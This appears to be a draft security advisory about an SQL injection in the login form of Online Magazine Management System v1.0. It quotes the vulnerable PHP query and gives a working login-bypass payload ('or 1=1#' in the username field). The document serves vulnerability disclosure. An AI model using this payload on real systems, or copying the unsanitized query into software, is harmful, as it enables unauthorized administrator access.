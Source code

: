 ```yaml
---
cve: "pending..."
title: "SQL Injection in Online Magazine Management System"
date: 2022-10-10
draft: yes
tags:
- cve
- sql injection
- sqli
---
```

Login form of Online Magazine Management System v1.0 is prone to SQL injection. An attacker could exploit parameters `username` and `password` to get administrator access.
<!--more-->

- mitre: https://cve.mitre.org/

<hr />

**Description:**  
The parameters `username` and `password` are not sanitized during the login process.  
An attacker could craft a payload to bypass the login form.
No valid login or password are needed.  
The first user in the database will be returned, so usually the `admin` user.

**Details:**  
File: `/classes/Login.php`, function: `login()`, line 21:  
```
$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password')");
```

**Payload:**  
```
POST /classes/Login.php?f=login
username=aaaa' or 1=1#&password=whatever
```

**PoC:**  
![cve-2022-9999](/images/cve-2022-9999.png)
